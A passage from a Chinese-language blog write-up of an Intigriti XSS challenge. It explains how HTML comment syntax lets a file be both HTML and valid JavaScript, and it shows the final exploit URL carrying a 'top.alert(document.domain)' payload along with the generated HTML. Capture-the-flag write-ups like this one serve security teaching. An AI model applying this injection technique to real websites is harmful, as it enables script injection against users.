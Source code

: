 ![ECMAScript spec](/img/posts/huli/xss-0721/spec.png)

換句話說呢，我們可以利用這點，做出一個看起來像 HTML，但實際上也是合法 JS 的檔案！

我最後做出來的 URL 是這樣：`https://challenge-0721.intigriti.io/htmledit.php?code=1;%0atop.alert(document.domain);/*`

產生的 HTML 長這樣：

``` html
<!-- 1; 這邊都是註解
top.alert(document.domain);/* --> 這之後也都是註解了
<!DOCTYPE html>
<html lang="en">
<head>
...
```
